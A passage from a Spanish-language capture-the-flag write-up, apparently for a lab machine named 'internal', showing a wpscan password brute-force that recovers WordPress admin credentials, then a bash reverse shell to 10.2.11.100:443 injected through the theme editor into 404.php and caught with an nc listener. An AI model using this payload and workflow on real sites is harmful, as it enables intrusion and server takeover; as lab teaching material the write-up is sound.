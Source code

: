 Después de ejecutar el comando de `wpscan`, el informe final nos revela que la contraseña válida del usuario `admin` es `my2boys`.

```bash
[...]

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                           
Trying admin / floppy Time: 00:01:06 <                                                                                                       > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[...]
```

Con las credenciales del usuario `admin`, podemos iniciar sesión en el panel de WordPress. 

![wp-admin](wp-admin.png)

Ya que hemos iniciado sesión con las credenciales del usuario `admin`, podemos modificar un archivo `.php` del tema actualmente utilizado.

Para ello, nos dirigimos a la sección `Appearance` del panel de control de WordPress, luego seleccionamos `Theme Editor`. 

![wp-admin1](wp-admin1.png)

A continuación, se sugiere seleccionar el archivo `404.php` del lado derecho. Si se desea ser más discreto, se podría modificar ligeramente el archivo existente para agregar una reverse shell, como se muestra a continuación mediante una simple shell PHP:

```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.11.100/443 0>&1'");
```

![404](404.png)

Después de haber añadido la línea de código mencionada, procedimos a actualizar el archivo modificado en el servidor. A continuación, llevamos a cabo una búsqueda en el repositorio oficial de WordPress en GitHub para localizar la ruta del archivo `404.php` correspondiente al tema utilizado en la página web, que en este caso es `twentyseventeen`. Tras una inspección detallada, determinamos que la ruta correspondiente al archivo `404.php` es `/wp-content/themes/twentyseventeen/404.php`.

Con el fin de obtener acceso a la máquina, iniciamos la escucha del puerto especificado en el código (443) y posteriormente accedemos a la ruta `/wp-content/themes/twentyseventeen/404.php` desde el navegador.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.81.141] 34938
bash: cannot set terminal process group (1093): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ id
<tml/wordpress/wp-content/themes/twentyseventeen$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
